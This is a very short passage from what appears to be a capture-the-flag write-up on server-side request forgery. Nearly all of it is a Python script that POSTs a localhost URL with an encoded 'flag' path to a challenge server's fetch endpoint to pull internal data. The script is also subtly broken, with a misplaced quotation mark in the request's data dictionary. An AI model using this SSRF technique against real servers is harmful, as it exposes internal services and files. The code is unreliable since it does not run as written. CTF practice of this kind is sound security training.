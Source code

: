 Server-Side Request forgery

Example:

```py
import requests

base="https://secret-tunnel.chal.nbctf.com/"

r=requests.post(base+"/fetchdata",data={"url:"https://localhost:1337//%66flag"})
print(r.text)
```
